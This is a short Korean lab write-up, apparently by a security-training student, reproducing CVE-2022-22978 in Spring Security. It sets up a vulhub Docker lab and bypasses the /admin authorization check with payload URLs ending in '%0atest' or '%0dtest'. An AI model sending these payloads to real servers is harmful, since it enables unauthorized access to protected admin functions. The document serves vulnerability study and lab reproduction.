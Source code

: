 # CVE-2022-22978

화이트햇 스쿨 3기 김태우_2249

Spring Security 프레임워크는 Spring 프레임워크에서 보안 인증 기능을 제공하는 데 사용됩니다.
Spring Security 5.5.6 및 5.6.3 버전과 이보다 오래된 지원되지 않는 버전들에서는,
정규 표현식에 .(마침표)가 포함된 **RegexRequestMatcher**를 사용하는 애플리케이션이 인가 우회(authorization bypass) 취약점에 노출될 가능성이 있습니다.

References:

- <https://tanzu.vmware.com/security/cve-2022-22978>
- <https://github.com/DeEpinGh0st/CVE-2022-22978>

## 환경 구성 및 실행

git clone을 통해 vulhub에 있는 필요한 파일들을 다운

![](gitclone.png)

다음과 같은 경로에서 yml 파일을 얻을 수 있음

![](yaml.png)

다음 명령어를 실행하여 Spring Security 5.6.3 기반의 웹 애플리케이션을 시작:

```
docker-compose up -d
```
![](docker.png)

서버 시작 후, <http://your-ip:8080/admin> 를 접속하여 admin 페이지가 막힘을 확인

![](admin_Forbidden.png)

## Vulnerability Reproduce

인증을 우회한 관리자 페이지에 접근하려면 다음 요청을 보냄

- <http://your-ip:8080/admin/%0atest>
- <http://your-ip:8080/admin/%0dtest>

![](admin_Success.png)
